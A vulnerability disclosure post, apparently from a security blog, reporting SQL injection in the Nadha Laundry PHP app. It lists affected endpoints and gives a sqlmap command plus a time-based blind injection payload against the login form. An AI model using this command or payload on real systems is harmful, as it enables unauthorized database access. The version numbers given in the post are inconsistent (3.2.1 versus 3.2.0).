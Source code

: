 ```yaml
---
title: "SQL Injection at Nadha Laundry v3.2.1"
excerpt: "We found SQL Injection in Nadha Laundry v3.2.1, a Laundry Management App by NadhaMedia."
categories:
  - CVE
tags:
  - SQL Injection
toc: false
classes: wide
toc_label: "TOC"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPURFTrr7cNXgdYYHOLOGTqa_XM2gS-EZ-JiNujF2n7Eukd12I3_FYsFBtQmDzUuZRgNjlENL4SZQ53wolNcwAqOHxrbOX7u-g3DXt5Q042JV-yRxQcgk02xDtoppUEK3QZ4IlUtZzbWmgXLVPhIIfwl3dSfW_Geb4rHeCJBidRNYjpMF3eYA0pbjksisF/s888/
---
```


![Nadha Laundry](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhDHLg8NCGeQRf7mgiJ3qdtAfgj8bSOMYhRA5esWTb-nBun51AsIStg2SAA1c3ukuOZJlzXtfc7xvjCWqyW5MWHqwMh8o-go2OEj54KmZ9iZIq3M8iJrnpxla8cuUSy7hlcWCOd8YRfcMXNqV_7SL7QN9dgZcVvxJadWusnQMyX1L2mkMJqtApxQ6HbA_o/s930/nadha-laundry.png)

## Summary
During my vulnerability research on an open-source project, I discovered SQL Injection vulnerabilities at several endpoint in **Nadha Laundry**, a laundry management application using PHP & MYSQL developed by by NadhaMedia.

## Software Details

Detail about POS Nadha Resto.

| Parameter   | Value |
| ------------| ------------|
| Software | Nadha Laundry |
| Description | Laundry Management App based on **Uinsu Web Framework** |
| Developer | Aditia Darma Nasution, Hasnah Nur Ardita |
| Vendor URL | https://github.com/haxorsprogramming |
| Software URL | https://github.com/haxorsprogramming/Nadha-Laundry |

## SQL Injection at Several Endpoint

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | - |
| Classification | SQL Injection |
| Description | SQL Injection vulnerabilities have been discovered in multiple parameters of Nadha Laundry, both in authenticated and unauthenticated states. |
| Required privilege | Low, Unauth |
| Affected Version | 3.2.0 (#0~612c17a) |
| Publicly disclosed | 13.06.2024 |

We have discovered SQL Injection vulnerabilities **in all endpoint** that interacts with the database. The following are examples of such endpoints:

- POST /Nadha-Laundry/login/prosesLogin
- POST /Nadha-Laundry/utility/getInfoPelanggan
- POST /Nadha-Laundry/pengaturanUmum/prosesEditPengaturan
- etc

> Note: All parameter on affected endpoint is vulnerable to SQL Injection.

This is an example PoC of how to exploit SQL Injection on a login page.

**sqlmap**
```bash
sqlmap -u http://localhost/Nadha-Laundry/login/prosesLogin --data="username=a&password=x" -p username --flush-session --batch --dbms=mysql
```

Response:

```bash
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 6511 FROM (SELECT(SLEEP(5)))OmZe) AND 'VqXT'='VqXT&password=x
```

![Nadha Laundry SQL Injection](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrFQg9iYwAkcggpV5_RD42osY6WTOeXFXsn_jRarptkkAA1904DZXb3s1R-PBhyglSOYzcvS-acakqXV6taDbvsVvFi9_47y78j2FRo7L4nsUEP33H0hiNIl4JVQTgYZDHKKm7xiBCIyiAaOoXekgDl6O3dDh8rO92dxiPtboDgSTNK2wRIs0gt9uJrlA/s1150/sql%20injection.png)

## Timeline
- 10 June 2024 - Found the vulnerability
- 10 June 2024 - Contact the developer
- 14 June 2024 - Article published